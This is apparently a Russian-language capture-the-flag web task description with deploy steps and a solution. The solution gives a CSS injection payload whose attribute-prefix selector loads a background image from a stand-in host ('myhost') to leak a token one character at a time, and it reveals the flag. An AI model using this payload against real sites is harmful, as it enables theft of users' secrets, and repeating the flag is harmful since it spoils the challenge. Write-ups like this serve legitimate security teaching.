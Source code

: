 
# bot scam | Hard | Web

## Описание

Как же мне надоели эти боты. Настало время забрать у них то, что не по праву, но наше!

## Деплой

```bash
cd deploy; docker-compose up --build -d
```

## Выдать учатникам
архив из public

## Решение

- **CSS injection**

```bash
<style>
h1[token_data^="a"] {
background-image: url(http://myhost?q=a);
} 
</style>
```

посимвольно перебираем флаг 

### **Флаг: goctf{you_c4nt_h4ndle_th3_s0urc3}**
